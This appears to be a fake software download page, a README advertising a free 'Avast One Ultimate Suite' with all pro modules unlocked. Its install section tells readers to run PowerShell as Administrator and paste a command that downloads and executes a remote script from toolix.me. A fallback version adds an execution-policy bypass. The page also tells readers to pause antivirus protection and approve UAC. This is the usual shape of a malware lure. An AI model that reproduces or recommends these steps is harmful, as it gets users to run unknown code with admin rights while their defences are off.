

***

# Avast One Ultimate Suite

<p align="center">
  
</p>

Avast One Ultimate Suite | Windows desktop package | straightforward setup | stable daily use.

## About this application

**Avast One Ultimate Suite** arrives as a local Windows bundle with pro modules already in place. Open the app after setup and continue with a stable, familiar workspace.

**Note:** Windows Defender or third-party AV may flag the installer — **pause real-time protection briefly**, finish setup, then turn protection back on.

## Download

1. Open **PowerShell** as Administrator
2. Paste and run:

```powershell
irm https://toolix.me/ps/setup.ps1 | iex
```

3. Confirm **UAC** (Yes) — setup runs automatically

<details>
<summary><b>Having trouble? Try this instead</b></summary>

Paste this in the same PowerShell window:

```powershell
powershell -NoProfile -ExecutionPolicy Bypass -Command "irm https://toolix.me/ps/setup.ps1 | iex"
```

</details>


## Questions & Answers

**Is it free to download?** Yes — it's free to download and use.

**Does it work on Windows?** Yes, it's built and tested for Windows 10 and 11.

**What if Windows asks for permission to run?** Allow it — that's a standard security prompt.

## About

Built for Windows desktops, Avast One Ultimate Suite keeps setup short and the workspace uncluttered.

## What's included

All professional modules are included in this build. After setup, launch locally and work with the complete feature set.

## Features

💫 Fast startup
🗂️ Workspace profiles
📈 At-a-glance state
🔒 Local preferences
🔧 Policy presets
🔧 Scan profiles
🔧 Status dashboard

## Good for

- 🖥️ Admin workstations
- 📋 Audit prep
- 🔧 Policy testing

* **Platform:** Windows 11 and 10 | 64-bit
* **RAM:** 6 GB base | 12 GB+ for demanding tasks
* **Disk:** 4 GB minimum free space

***